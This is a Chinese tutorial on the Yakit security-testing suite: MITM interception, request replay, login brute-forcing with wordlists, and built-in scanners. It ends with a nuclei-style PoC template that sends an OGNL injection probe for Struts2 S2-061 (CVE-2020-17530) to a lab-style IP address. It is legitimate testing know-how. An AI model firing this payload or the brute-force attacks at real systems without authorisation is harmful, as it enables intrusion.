# 1. Yakit安装

首先下载安装包，如何正常安装，软件安装都很简单的，基本都是下一步。

[官方参考安装](https://www.yaklang.io/products/download_and_install/)



## 1.1. 引擎初始化

这里采用本地引擎初始化，当然下面还有远程连接，远程连接就当等于你在VPS上安装一个，然后本地去连接，所有的操作均是VPS发出的请求，就类似CS的服务端与客户端的意思。

而这里使用本地引擎，勾选用户协议，然后初始化引擎，然后会弹出一个重启，这里的重启是引擎重启，同时可能下载的是老版本的，可能还会有一次更新。


## 1.2. 初始化设置

这里首先点击临时项目，进入操作界面中，这里需要注意临时项目当你退出Yakit的时候就会清除，这个需要注意，由于这里是基础配置我们点击临时项目就可以了。



## 1.3. 临时项目界面

这里的界面都是一模一样的，只是这里面的进行的抓包、测试等数据，在你退出的时候均会清除。


## 1.4. 安装证书

点击左上角会出现一个三角提示符，里面有四项问题，每个人安装后问题是不一样的，正常应该是五项，除上述四项问题外还有一个管理员启动，使用过程中可以将软件设置成默认管理员启动，这个就不说了，自行解决。

chrome启动路径：如果电脑上有Google浏览器，就会自动识别，我这里是虚拟机没下载Google浏览器。

全局反连未配置：这个会在某些类似于反连接的时候会用到，例如让对方主动连接你的时候可能会出现无法连接，那么就需要你配置这个，如果暂时用不到就不用配置，影响不大。

系统代理：这个是需要你在抓包的时候才会配置，而且配置也不是在这里配置的，这里配置的是全局抓包，相当于你电脑上所有的流量包都交给Yakit上处理。


### 1.4.1. 安装MITM证书

这个证书简单来说就是下载证书，然后导入即可，但是Yakit设置了一个批处理，你可以直接运行这个批处理，但是可能会出现无法成功的情况，如果这种情况，老老实实手动安装吧。


这里我没安装成功，但是我又点了一下成功了。



### 1.4.2. 手动安装证书

这里我简单说一下如何安装证书，证书也该也不怎么用说了。



# 2. 功能使用

这里都是大概过一下，其实简单来说yakit就是集中化了很多的单个小工具，最终的使用方式和单个工具使用的方式是一样的，没什么区别。

这里我就按照工具上面的标题来介绍，复杂的不介绍，用的明白说不清楚，基础懂了，剩下的琢磨一下也就差不多会了。

## 2.1. 渗透测试

这一项中主要了解怎么抓包和测试包。


### 2.1.1. MITM抓包—手动劫持

在左上角有一个MITM，点击即可进入这个界面，这个基本上都是设置代理主机，基本上和burp是一样的操作。


这里需要在内容规则的地方配置一下规则，这里的规则其实就是将请求进行分类，根据获取到的请求，从请求中筛选行为特征归类到一起中。

点击内容规则后面的齿轮就能看到了，默认如果你自己会写那么就导入你自己会写的，我相信看到这里了基本上应该是不太熟悉的，那么就直接在内容规则下面的默认配置点击后直接导入就ok了。


默认是自动放行的，这里修改成手动劫持，同时再浏览器上配置相应的监听端口即可。


监听端口，我这里就使用默认的8083端口，如果你之前修改过端口，那么就按照你自己修改过的来。



抓包测试，这里看到我访问的一个IP地址，能够正常抓到包就可以了。右边的丢弃数据和提交数据与burp中的丢弃和放行的一样道理。



劫持响应包也是和burp中的操作是一样的，这里也不赘述，主要是了解功能点在哪。同时在左边会有插件组，其中被动插件你在勾选后，当你抓到包后会自动带入检测，类似于被动扫描。



### 2.1.2. MITM抓包—自动放行

关于自动放行，简单来是就是当你访问一个网站的时候，会将所有的流量都自动放行，但是会在本地将每一个请求都保存下来，比如我这里测试www.baidu.com



当点击⚡️FUZZ的时候就可以放入到重放包中，稍后会介绍到重放功能。



### 2.1.3. MITM抓包—History

这里就会将你所有的请求的地址均排列出来，剩余的操作也是一样的可以发送包、修改包。需要注意的是临时项目，关闭yakit所有数据均会清除。


如下图，当关闭软件的时候是有数据均会清除，不过会提示你。



### 2.1.4. Web_Fuzzer_重放

当抓到一个包后右击选择发送到WebFuzzer就可以了。



剩余的操作就是和burp差不多了，可以修改请求头、IP地址、添加请求体、修改请求体等等。



### 2.1.5. Web_Fuzzer_爆破

爆破的模式由于Yakit所提供的爆破方式与burp有异曲同工之妙，而且解释起来比较麻烦，建议直接去看官方手册，这里我只简述简单的模式以及常用的。

[二、爆破 | Yak Program Language](https://www.yaklang.io/products/Web Fuzzer/fuzz)

比如下图我们获取到一个登录的请求包，我们对123456进行爆破，这里就可以选中然后插入字典，有很多字典，如果你没有字典，只是临时测试，那么就选中临时字典，将字典复制进去。

当然最新的功能是，你直接选中123456停留后就会弹出插入标签的绿色框框，功能和右击插入是一样的。



如果你有字典可以使用插入模糊测试字典选中，同时点击上面的齿轮可以将你的字典保存进去，下次就可以直接使用了。



这里可以看到我的爆破效果，这只是演示，也没有使用很多的密码来进行测试。



## 2.2. 安全工具

这里的安全工具简单来说就是汇聚了很多的一些类似端口扫描、目录扫描、漏洞扫描等等小工具，用法基本上上都是和单个工具差不多。

这里我就不多说了，图片也多，也没啥要解释的。


### 2.2.1. 端口指纹扫描

我感觉这个都不用说什么，首先如果只是端口扫描，那么左侧栏的插件组不需要勾选，勾选了也就是相当于在进行端口扫描的时候同时带着这些插件进行漏洞扫描。

由于插件很杂，其中很多都是可能你根本用不到的，无异于增加负担，如果只是想端口扫描就不要勾选。


并且下面有一个额外参数点击后可以选中只扫描端口还是只扫描指纹或者说同时扫描指纹和端口，自己研究吧。


### 2.2.2. 专项漏洞检测

这个没啥好说了，直接全选插件喽，然后右边直接输入目标地址扫描就完事了，如果有什么其他的特殊配置可以点击额外参数进行设置。


### 2.2.3. 子域名收集

这个就更简单来，直接输入目标即可。



### 2.2.4. 基础爬虫

同样输入目标网站即可进行。


### 2.2.5. 弱口令检测

同样这里都是输入目标进行检测



## 2.3. 插件

插件这里就是我们上述经常看到扫描使用到的插件，就存储这个地方，默认在你安装后这些都会自动下载到你本地，如果没有下载你也可以手动下载，同时也意味着可以手动删除，但是需要注意的是，由于我说安装在白名单目录，可能当你们下载后会存在被杀的情况。具体我没测试过。

[插件系统技术概述 | Yak Program Language](https://www.yaklang.io/products/Plugin-repository/yak-script-system)


### 2.3.1. 插件操作

关于插件操作其实没什么好说的，相当于你使用漏洞扫描工具中的POC或EXP，由所有人共同维护，你也可以对这些现有的其他人插件进行修改或者上传自己的编写的插件。

关于修改他人插件，修改后默认你只能本地使用，如果需要删除，则需要对方同意，正常也不要去修改别人的插件，如果存在问题修改后本地使用就可以了。

这里选中绕过304缓存限制，看上图存在的位置，点进去后，默认是使用，你可以直接针对这个单个进行测试。


如果你要修改，可以点击右边上角有一个编辑，就可以进入到这里修改了，这里可能各位也不太懂怎么修改，后面会提到怎么修改，这里先了解然后进入修改状态。



这里我说点击了第二，就是提交并保存，这个需要给作者审核，所以如果你觉得出现错误了，你如果觉得修改的没问题可以提到给作者，如果你只是本地使用，其他的第一、第二、第三、都可以保存在你个人下面。


### 2.3.2. 插件编写

关于插件编写这里会比较复杂点，当然我说的是从头开始一句一句写，这个建议你去看官方的教程，这里我只演示一种简单的写法。

[插件概述：定义与基础类型 | Yak Program Language](https://www.yaklang.io/products/Plugin-repository/plugins/plugin_type)

本质上这种简单的写法在我之前的写过的Python编写POC与EXP中基本上一致，感兴趣的可以去翻一翻，看完基本上你也就懂怎么编写了。这里我单数列一个大标题。

## 2.4. 插件编写详细

首先来说一下POC的编写，EXP编写需要自行去看官方文档，由于会涉及到很多的跳转比较麻烦，我一句两句也说不清楚。

POC编写原理：首先获取请求包，比如`http://123.58.224.8:34959/`在这个系统存在漏洞Struts2 S2-061 远程命令执行漏洞，那么我们使用yakit抓包后，修改请求的路径，得到一个POC：

漏洞原理我简单说一下，就是抓到包后，添加`/?id=%25%7b+%27test%27+%2b+(2100+%2b+20).toString()%7d`然后在响应包中查看是否存在test2120，如果存在那么就证明存在漏洞。

```
GET /?id=%25%7b+%27test%27+%2b+(2100+%2b+20).toString()%7d HTTP/1.1
Host: 123.58.224.8:34959
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=node0123w97o8sjaho1sm02sxrdphsv0.node0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
```



这里就需要对获取到的内容进行测试了，通过上述的介绍，简单来说就是这个POC执行后在响应包中存在test2120就是存在漏洞的，那么我们就得添加匹配器，在左侧点击规则》选择匹配器进行添加》在右下角点击保留条件关系是and，然后匹配类型是关键字，匹配的位置是全部响应，条件也是and，最下面输入关键字。

简单来说就是正则匹配，当响应包中存在哪些关键字就证明有这个漏洞，然后点击应用就添加了。



当以上都配置完成后，这里我们现不纠结POC对与不对，这里我们就可以点击右上角，PoC使用的是 Yakit 兼容的 nuclei PoC 模板，支持 Raw 和 Path 两种模式，可自由选择。



这里我就使用Raw模板，点击后就会然后点击请求配置，可以输入目标地址，点击执行后就可以查看测试的结果了。



这里我们来查看执行的结果，当测试成功后就会显示成这个样子。



接下来我们就将这个POC保存起来，点击右上角存为插件，就会让你添加一些详细的信息等等，添加完成后就可以在你本地查找到了。



需要注意的是，如果同步到云端的话，需要设置严谨一点，相当于你的插件供所有人使用，不过也需要注意，上传是需要经过审核的，而不是随意上传，至此就全部完成插件的编写了。



下面是插件源码，上面演示的源码其中有很多信息都没填写，比如CVE漏洞、漏洞描述、作者等等，下面是源码：

```yaml
id: CVE-2020-17530

info:
  name: Struts2 S2-061 远程命令执行漏洞
  author: yuto
  severity: high
  description: Apache Struts disclosed S2-061 Struts remote code execution vulnerability (CVE-2020-17530) on December 08, 2020, which may exist OGNL expression injection vulnerability in the case of using some tags, etc., resulting in remote code execution with great risk. S2-061 is a fixed bypass of the S2-059 vulnerability.
  reference:
  - https://nvd.nist.gov/vuln/detail/CVE-2020-17530
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true
  yakit-info:
    sign: 8a939997a8d4b8ee907924f194f22789

http:
- raw:
  - |+
    @timeout: 30s
    GET /?id=%25%7b+%27test%27+%2b+(2100+%2b+20).toString()%7d HTTP/1.1
    Host: {{Hostname}}
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Cookie: JSESSIONID=node0usx34y50np9sult9bo1zt7xb0.node0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8


  max-redirects: 3
  matchers-condition: and
  matchers:
  - type: word
    words:
    - test2120
    condition: and


# Generated From WebFuzzer on 2024-11-19 14:38:06
```



# 3. 总结

yakit中的功能还是挺多的，结合了很多的小工具，不让也不会官方自己写单兵作战，当然可能还是有些用的习惯有些用的不习惯，这些都是看个人，当然如果作为入门还是老老实实去使用burp吧，毕竟burp算是很基础的东西了，熟悉了再去搞些吧。

可能还有很多功能没有介绍到，这里我就不介绍了，基础了解后，就自行去研究吧，多看看官方手册，很多情况下我也都是看官方手册的，看一遍就大概懂了。

